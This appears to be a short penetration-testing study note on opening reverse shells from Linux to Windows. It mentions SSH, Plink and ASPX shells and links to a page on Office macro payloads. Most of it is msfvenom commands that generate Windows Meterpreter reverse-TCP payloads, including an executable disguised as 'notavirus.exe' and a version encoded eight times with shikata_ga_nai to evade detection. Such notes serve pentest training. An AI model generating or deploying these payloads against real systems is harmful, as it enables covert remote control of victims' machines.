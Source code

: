 
## Linux -> Windows

Establishing a shell or reverse shell connection between Linux and Windows machines can be complex due to incompatible shells and commands. However, it's possible with the right knowledge and tools. Use SSH to connect to a remote Windows machine from a Linux machine and run commands. The Windows machine needs an SSH server installed. For reverse shell connection, use Plink to initiate a connection from Windows to Linux. Alternatively, use ASPX shell with a Windows machine as an intermediary host, but this approach requires specific Windows tools and techniques and may not be reliable.

MSFvenom
```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]

msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe -o notavirus.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

<font color="Green">Other Technique ---></font>  [[Penetration Testing/9. Exploitation Basics/Payloads-Windows-and-Linux/Windows/Macros Payloads (MS World, Excel, ...)]] (VERY GOOD)